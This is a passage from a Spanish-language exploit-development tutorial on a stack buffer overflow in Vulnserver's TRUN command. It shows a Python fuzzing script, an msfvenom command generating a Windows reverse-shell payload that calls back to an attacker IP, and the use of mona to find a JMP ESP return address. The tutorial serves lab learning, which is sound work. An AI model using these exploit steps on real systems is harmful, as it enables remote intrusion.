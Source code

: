 buffer = "A" * 2700

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.193', 9999))
    s.send(('TRUN /../: '+ buffer+'\r\n'))
    #s.send(('TRUN .' + buffer + '\r\n'))
    print s.recv(1024)
    s.close()
except:
    print "Sin conexion al servidor"
</code></pre>



<p>Ahora podemos construir nuestro código, lo haremos en lenguaje &nbsp;shellcode, y para esto nuevamente usaremos una herramienta de metasploit, msfvenom, con la cual para este ejemplo generamos una shell reversa desde nuestro windows, hacia nuestra máquina. <br></p>



<p><strong><em>msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.164 lport=4455 -b "\x00" EXITFUNC=thread -f python -v shellcode</em></strong><br></p>



<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/7su7ipbNWPjCQQeL6f_MMKAmnpT3ibYhz_iePwWJdoVJEQaHUryxcaZJlB_k76tCv3wveT4b0UfLhmj1RPhytlbl2t7J-Z8DDBozrfjdnm1FmT1VXvoAt_V4Nlr76epjACoQ9a8T" alt="" /></figure>



<p>OK! Ya tenemos todo listo, pero… que dirección de retorno podemos ocupar para ejecutar nuestro código? De momento solo estamos escribiendo letras “B” por lo que debemos encontrar una dirección de retorno válida, que nos permita “saltar” hacia alguna parte en memoria donde esté nuestro código, el cual notamos cae dentro de ESP.<br></p>



<p>Esto podemos conseguirlo utilizando el módulo mona (escrito en pyhton) el cual instalamos en nuestro debugger y nos permitirá observar los módulos del programa usando el comando :</p>



<p><strong><em>mona &nbsp;modules!</em></strong><br></p>



<figure class="wp-block-image"><img src="https://lh4.googleusercontent.com/q4W2Ab23-NVTEV54_TCx_EHZUutJjGDnsfxoMzrqAAPEIszIYc3ziWUpFTuQcmM8cXc2D1430EGx7VpMAcSDSGN5Gw70qQ9f-jNUlQQw_wbMEtdABZ8XVJKqWSpgyqQVXg9A48Ql" alt="" /></figure>



<p>Al cargar los módulos podemos observar los mismos y sus protecciones, trabajaremos sobre el dll sin protecciones essfunc.dll, cargando los ejecutables, podemos encontrar una dirección de retorno dentro del mismo en la dirección hacia ESP, este “opcode” es llamado JMP ESP (siglas para JUMP ESP, o salto hacia ESP)</p>



<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/3kKXXnkdcvR3CpUiXE9krmwSPOTke-6YKhmhwfHU64A78p4_1PynOTUTWvEeQn904Y4kKaaxGuzcOKzp3YcYisORjWtAYEffXLUmEKU-4m1dO7YGeKKF-EHh0JZPzXd3owNRNzG5" alt="" /></figure>



<p>Ejecutando <strong>ctrl + </strong> podemos buscar por “JMP ESP” dentro de la caja de busqueda que aparece y encontramos la direccion <strong>625011AF</strong><br></p>
